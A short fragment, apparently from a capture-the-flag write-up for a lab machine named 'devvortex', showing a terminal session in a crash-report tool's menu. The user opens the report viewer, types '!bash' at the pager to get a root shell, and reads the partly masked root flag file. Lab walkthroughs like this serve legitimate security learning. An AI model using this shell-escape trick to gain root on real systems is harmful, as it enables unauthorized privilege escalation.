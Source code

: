 ```bash
  S: Send report (1.4 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): V

What would you like to do? Your options are:
  S: Send report (1.4 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): v
!bash
root@devvortex:/home/logan# cat /root/root.txt 
4dd686c1************************
```
